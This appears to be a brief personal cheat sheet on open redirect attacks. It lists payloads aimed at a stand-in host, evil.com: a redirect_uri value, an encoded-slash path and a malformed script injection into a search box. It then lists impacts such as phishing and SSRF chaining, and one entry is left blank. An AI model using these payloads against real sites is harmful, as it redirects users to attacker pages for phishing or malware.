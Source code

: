 # open redirect


1 - payload: {evil.com} 
example: site.com/.../redirect_uri=evil.com/...

2 - payload: {///%5Cevil.com/} 
example: site.com///%5Cevil.com/ 

3 - payload:  </script>window.location"http://evil.com"</script>
example: search box : injection

4 - payload:
example:

impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
- 
